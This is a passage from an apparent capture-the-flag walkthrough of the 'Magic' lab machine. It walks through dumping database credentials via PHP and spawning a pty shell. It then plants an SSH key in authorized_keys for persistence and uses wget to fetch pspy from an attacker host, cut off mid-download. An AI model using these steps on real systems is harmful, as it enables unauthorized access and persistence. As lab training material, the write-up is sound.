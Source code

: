 ```
$stmt = $pdo->query("SELECT * FROM login");
$user = $stmt->fetch();
$count = 0;
$wow = 'wow';
foreach ($user as $value) {
    $count += 1;
    print ($value);
}
Database::disconnect();
print($user);
?>
EOF
```
Now visit `http://magic.htb/reveal.php`:
```
1adminTh3s3usW4sK1ng
```
:)

### Shell as theseus
```
$ su - theseus
su: must be run from a terminal
$ python -c "import pty;pty.spawn('/bin/bash')"
/bin/sh: 33: python: not found
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/var/www/Magic$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$
```
Getting to root is going to be a little painful - perk yourself up by grabbing user.txt at `/home/theseus`.

### Priv: theseus -> root
At this point, you are highly recommended to add your public SSH key to `theseus`'s account by creating an `authorized_keys` file in `theseus`'s `.ssh` folder.
```
theseus@ubuntu:~/.ssh$ cat > authorized_keys << "EOF"
> ssh-rsa AAAAB3NzaC1yc2E[...] kali@kali
> EOF
```
Once you've done this, you can SSH to the box as `theseus`:
```
$ ssh -i ~/.ssh/id_rsa.pub theseus@magic.htb
```
Now run your enumeration script and see that there's not much to go on. We do get something slightly unusual:
```
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
```
So we see that `/bin/sysinfo` is readable by `theseus` even though it belongs to `root`. There's honestly still not much to go on, until we try to see what `sysinfo` is doing. As it turns out, we can see what `sysinfo` is doing by using this [wonderful program called `pspy`](https://github.com/DominicBreuker/pspy). Upload the 64-bit version (`pspy64`) to the box and run it:
```
theseus@ubuntu:~$ wget http://10.10.14.4:9002/pspy64
--2020-08-23 02:07:53--  http://10.10.14.4:9002/pspy64
Connecting to 10.10.14.4:9002... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: ‘pspy64’

```